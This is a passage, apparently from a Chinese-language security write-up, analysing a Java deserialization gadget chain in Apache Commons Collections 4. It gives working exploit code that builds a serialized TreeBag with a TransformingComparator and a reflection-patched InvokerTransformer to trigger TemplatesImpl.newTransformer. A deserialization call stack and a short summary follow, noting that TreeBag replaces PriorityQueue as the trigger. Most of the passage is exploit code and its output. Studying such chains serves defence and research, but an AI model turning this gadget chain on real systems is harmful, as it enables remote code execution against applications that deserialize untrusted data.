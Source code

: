 ```java
         */
        Transformer            transformer = new InvokerTransformer("toString", new Class[]{}, new Object[]{});
        TransformingComparator comparator  = new TransformingComparator(transformer);

        // prepare CommonsCollections object entry point
        TreeBag tree = new TreeBag(comparator);
        tree.add(obj);

        Field field = InvokerTransformer.class.getDeclaredField("iMethodName");
        field.setAccessible(true);
        field.set(transformer, "newTransformer");

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(tree);
        oos.close();

        // 本地测试触发
        // System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();

    }


}
```

调用栈：

```
newTransformer:418, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect) [2]
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:606, Method (java.lang.reflect)
transform:129, InvokerTransformer (org.apache.commons.collections4.functors)
compare:81, TransformingComparator (org.apache.commons.collections4.comparators)
compare:1188, TreeMap (java.util)
put:531, TreeMap (java.util)
doReadObject:524, AbstractMapBag (org.apache.commons.collections4.bag)
readObject:129, TreeBag (org.apache.commons.collections4.bag)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect) [1]
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:606, Method (java.lang.reflect)
invokeReadObject:1017, ObjectStreamClass (java.io)
readSerialData:1893, ObjectInputStream (java.io)
readOrdinaryObject:1798, ObjectInputStream (java.io)
readObject0:1350, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
main:75, CommonCollections4_treebug
```

简单总结一下也就是用 TreeBag 代替 PriorityQueue 触发 TransformingComparator，后续依旧使用 Transformer 的调用链。
